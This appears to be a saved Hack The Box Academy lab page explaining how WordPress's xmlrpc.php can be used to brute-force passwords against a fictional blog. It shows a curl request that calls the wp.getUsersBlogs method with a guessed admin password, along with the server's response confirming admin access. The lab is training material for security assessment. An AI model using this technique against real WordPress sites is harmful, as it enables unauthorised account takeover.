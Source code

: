 ```yaml
---
created: 2023-12-18T15:36:01 (UTC -08:00)
tags: []
source: https://enterprise.hackthebox.com/academy-lab/7282/3329/modules/17/88
author: 
---
```


# HTB Enterprise

> ## Excerpt
> It is important to note that xmlrpc.php being enabled on a WordPress instance is not a vulnerability. Depending on the methods allowed, xmlrpc.php can facilitate some enumeration and exploitation activities, though.

---
# Attacking WordPress 'xmlrpc.php'

It is important to note that `xmlrpc.php` being enabled on a WordPress instance is not a vulnerability. Depending on the methods allowed, `xmlrpc.php` can facilitate some enumeration and exploitation activities, though.

Let us borrow an example from our [Hacking Wordpress](https://enterprise.hackthebox.com/academy-lab/7282/preview/modules/17) module.

Suppose we are assessing the security of a WordPress instance residing in _http://blog.inlanefreight.com_. Through enumeration activities, we identified a valid username, `admin`, and that `xmlrpc.php` is enabled. Identifying if `xmlrpc.php` is enabled is as easy as requesting `xmlrpc.php` on the domain we are assessing.

We can mount a password brute-forcing attack through `xmlrpc.php`, as follows.

```
<span>p3ta@htb</span><span class="color-green">[/htb]</span><code class=" language-shell-session"><span class="token command"><span class="token shell-symbol important">$</span> <span class="token bash language-bash"><span class="token function">curl</span> -X POST -d <span class="token string">"&lt;methodCall&gt;&lt;methodName&gt;wp.getUsersBlogs&lt;/methodName&gt;&lt;params&gt;&lt;param&gt;&lt;value&gt;admin&lt;/value&gt;&lt;/param&gt;&lt;param&gt;&lt;value&gt;CORRECT-PASSWORD&lt;/value&gt;&lt;/param&gt;&lt;/params&gt;&lt;/methodCall&gt;"</span> http://blog.inlanefreight.com/xmlrpc.php</span></span>

<span class="token output">&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;methodResponse&gt;
  &lt;params&gt;
    &lt;param&gt;
      &lt;value&gt;
      &lt;array&gt;&lt;data&gt;
  &lt;value&gt;&lt;struct&gt;
  &lt;member&gt;&lt;name&gt;isAdmin&lt;/name&gt;&lt;value&gt;&lt;boolean&gt;1&lt;/boolean&gt;&lt;/value&gt;&lt;/member&gt;
  &lt;member&gt;&lt;name&gt;url&lt;/name&gt;&lt;value&gt;&lt;string&gt;http://blog.inlanefreight.com/&lt;/string&gt;&lt;/value&gt;&lt;/member&gt;
  &lt;member&gt;&lt;name&gt;blogid&lt;/name&gt;&lt;value&gt;&lt;string&gt;1&lt;/string&gt;&lt;/value&gt;&lt;/member&gt;
  &lt;member&gt;&lt;name&gt;blogName&lt;/name&gt;&lt;value&gt;&lt;string&gt;Inlanefreight&lt;/string&gt;&lt;/value&gt;&lt;/member&gt;
  &lt;member&gt;&lt;name&gt;xmlrpc&lt;/name&gt;&lt;value&gt;&lt;string&gt;http://blog.inlanefreight.com/xmlrpc.php&lt;/string&gt;&lt;/value&gt;&lt;/member&gt;
&lt;/struct&gt;&lt;/value&gt;
&lt;/data&gt;&lt;/array&gt;
      &lt;/value&gt;
    &lt;/param&gt;
  &lt;/params&gt;
```